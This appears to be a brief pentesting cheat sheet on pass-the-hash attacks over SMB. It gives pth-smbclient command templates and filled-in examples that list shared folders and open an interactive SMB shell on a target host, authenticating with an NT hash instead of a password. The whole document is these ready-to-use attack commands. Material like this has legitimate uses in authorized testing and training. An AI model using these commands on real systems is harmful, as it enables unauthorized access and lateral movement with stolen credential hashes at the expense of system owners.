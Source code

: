 # Pass the hash

## Smb pass the hash

### Tool:

[pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit)


#### Listing shared folders

sudo pth-smbclient --user=<user> --pw-nt-hash -m smb3  -L <target_ip> \\\\<target_ip>\\ <hash>

`sudo pth-smbclient --user=user --pw-nt-hash -m smb3  -L 192.168.0.24 \\\\192.168.0.24\\ ljahdçjkhadkahdkjahsdlkjahsdlkhadklad`

#### Interactive smb shell

sudo pth-smbclient --user=<user> --pw-nt-hash -m smb3  \\\\<target_ip>\\shared_folder <hash>

`sudo pth-smbclient --user=user --pw-nt-hash -m smb3 \\\\192.168.0.24\\folder ljahdçjkhadkahdkjahsdlkjahsdlkhadklad`
